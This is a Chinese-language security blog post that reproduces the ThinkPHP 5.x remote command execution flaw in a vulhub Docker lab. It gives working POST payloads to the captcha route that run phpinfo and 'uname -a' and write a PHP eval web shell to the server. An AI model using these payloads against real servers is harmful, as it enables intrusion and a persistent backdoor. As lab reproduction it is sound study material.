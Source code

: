 ```yaml
---
layout: post
title: "Thinkphp 5.*_ 全版本命令执行复现"
subtitle: "Thinkphp 5.* Command execution"
date: 2019-01-16
author: ppbibo
category: security
finished: true
---
```

[TOC]

Thinkphp 5.* Command execution

## 正文

靶机提供：[vulhub/thinkphp/5.0.23-rce at master · vulhub/vulhub · GitHub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)

执行:

```
docker-compose up -d
```

打开：[http://10.37.129.2:8080/](http://10.37.129.2:8080/)

[![1](./Thinkphp 5.__ 全版本命令执行复现 _ bibo @ 安全小生_files/1.png)](/static/img/111.png)

```
Request:http://10.37.129.2:8080/index.php?s=captcha
POST提交
payload: _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```

[![0](./Thinkphp 5.__ 全版本命令执行复现 _ bibo @ 安全小生_files/0.png)](/static/img/000.png)

```
Request:http://10.37.129.2:8080/index.php?s=captcha
POST提交
payload: _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=uname -a
```

[![a](./Thinkphp 5.__ 全版本命令执行复现 _ bibo @ 安全小生_files/a.png)](/static/img/aaa.png)

```
Request:http://10.37.129.2:8080/index.php?s=captcha
POST提交
payload: _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo '404<?php @eval($_POST[cmd]);?>' >> hakcer.php
```

[![3](./Thinkphp 5.__ 全版本命令执行复现 _ bibo @ 安全小生_files/4.png)](/static/img/444.png)

[九世大佬利用脚本：thinkphp_5.*_Remote Execution.py](https://github.com/ppbibo/Information-Security-Personnel-Tools/blob/master/thinkphp_5.*_Remote Code Execution.py)

[![q](./Thinkphp 5.__ 全版本命令执行复现 _ bibo @ 安全小生_files/q.png)](/static/img/qqq.png)

```
# 测试完成后，删除整个环境.
docker-compose down
```

[参考九世大佬](https://422926799.github.io/2019/01/11/thinkphp-5-Remote-Code-Execution/)

[参考陌航哥哥](https://www.wileysec.com/archives/502/)